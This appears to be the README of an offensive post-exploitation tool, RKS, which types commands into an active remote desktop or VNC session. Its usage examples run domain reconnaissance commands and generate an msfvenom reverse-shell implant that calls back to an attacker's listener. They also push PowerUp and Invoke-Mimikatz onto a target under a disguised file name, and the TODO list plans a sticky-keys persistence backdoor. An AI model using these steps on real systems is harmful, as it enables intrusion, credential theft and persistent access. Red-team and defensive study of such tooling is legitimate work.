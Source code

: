 # Description

## Introduction

A script to automate keystrokes through an active remote desktop session that assists offensive operators in combination with living off the land techniques.

## About RKS (RemoteKeyStrokes)

All credits goes to [nopernik](https://github.com/nopernik) for making it possible so I took it upon myself to improve it. I wanted something that helps during the post exploitation phase when executing commands through a remote desktop.

## Help Menu

```
$ ./rks.sh -h
Usage: ./rks.sh (RemoteKeyStrokes)
Options:
    -c, --command <command | cmdfile>       Specify a command or a file containing to execute
    -i, --input <input_file>                Specify the local input file to transfer
    -o, --output <output_file>              Specify the remote output file to transfer
    -m, --method <method>                   Specify the file transfer or execution method
                                            (For file transfer "base64" is set by default if
                                            not specified. For execution method "none" is set
                                            by default if not specified)

    -p, --platform <operating_system>       Specify the operating system (windows is set by
                                            default if not specified)

    -w, --windowname <name>                     Specify the window name for graphical remote
                                            program (freerdp is set by default if not
                                            specified)

    -h, --help                              Display this help message
```

## Usage

### Internal Reconnaissance

- When running in command prompt

```
$ cat recon_cmds.txt
whoami /all
net user
net localgroup Administrators
net user /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain
net group "Domain Computers" /domain

$ ./rks.h -c recon_cmds.txt
```

### Execute Implant

- Execute an implant while reading the contents of the payload in powershell.

```
$ msfvenom -p windowx/x64/shell_reverse_tcp lhost=<IP> lport=4444 -f psh -o implant.ps1

$ ./rks.sh -c implant.ps1

$ nc -lvnp 4444
```

### File Transfer

- Transfer a file remotely when pivoting in a isolated network. If you want to specify the remote path on windows be sure to include quotes.

```
$ ./rks.sh -i /usr/share/powersploit/Privesc/PowerUp.ps1 -o script.ps1

$ ./rks.sh -i /usr/share/powersploit/Exfiltration/Invoke-Mimikatz.ps1 -o "C:\Windows\Temp\update.ps1" -m base64
```

### Specify Grapical Remote Software

- If you're targeting VNC network protocols you can specify the window name with `tightvnc`.

`$ ./rks.sh -i implant.ps1 -w tightvnc`

- If you're targeting legacy operating systems with older RDP authentication specify the window name with `rdesktop`.

`$ ./rks.sh -i implant.bat -w rdesktop`

## TODO and Help Wanted

- Add text colors for better user experience

- Implement Base64 file transfer

- Implement Bin2Hex file transfer

- Implement to read shellcode input and run C# implant and powershell runspace

- Implement a persistence backdoor. Sticky keys, displayswitch

## References

- [Video: sethc.exe Backdoor CMD Payload delivery (USB Rubber Ducky style)](https://www.youtube.com/watch?v=8YFEujJUxws)

- [Original Script](https://github.com/nopernik/mytools/blob/master/rdp-cmd-delivery.sh)

- [sticky_keys_hunter](https://github.com/ztgrace/sticky_keys_hunter)

## Credits

- [nopernik](https://github.com/nopernik)

